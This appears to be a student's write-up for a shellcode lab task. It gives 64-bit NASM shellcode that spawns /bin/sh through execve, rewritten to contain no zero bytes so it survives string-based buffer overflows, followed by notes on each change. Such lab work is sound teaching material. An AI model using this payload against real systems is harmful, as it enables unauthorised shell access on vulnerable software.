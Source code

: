 ##### solution
Here's the revised code

- code : `Shellcode/mysh64_no_zero.s`
- gdb output : `Shellcode/task2b_output.txt`

```nasm
section .text
    global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx

        ; Zero out al without using immediate zero
        xor al, al
        mov [rbx+7], al   ; Null terminate /bin/sh

        ; Store rbx to memory without direct mov
        push rbx
        pop qword [rbx+8]  ; Replaces 'mov [rbx+8], rbx'

        ; Zero out rax without immediate zero
        xor rax, rax      ; Replaces 'mov rax, 0x00'
        mov [rbx+16], rax ; Store null terminator for argv

        ; Setup execve arguments
        mov rdi, rbx      ; First arg: command string
        lea rsi, [rbx+8]  ; Second arg: argv array
        xor rdx, rdx      ; Third arg: envp=NULL (replaces 'mov rdx, 0x00')

        ; Setup syscall number without immediate value
        xor rax, rax
        mov al, 59        ; syscall number for execve
        syscall
    two:
        call one
        db '/bin/sh', 0xFF    ; Command string (terminated later by code)
        db 'AAAAAAAA'         ; Placeholder for argv[0]
        db 'BBBBBBBB'         ; Placeholder for argv[1]
```

Explanations of the zero-eliminating modifications:

1. **Null terminator for `/bin/sh`**:
   - Original: `mov byte [rbx+7], 0`
   - New: Use `xor al, al` to get zero, then `mov [rbx+7], al`

2. **Moving rbx to memory**:
   - Original: `mov [rbx+8], rbx`
   - New: Use `push rbx` followed by `pop qword [rbx+8]`

3. **Zeroing rax**:
   - Original: `mov rax, 0x00`
   - New: `xor rax, rax`
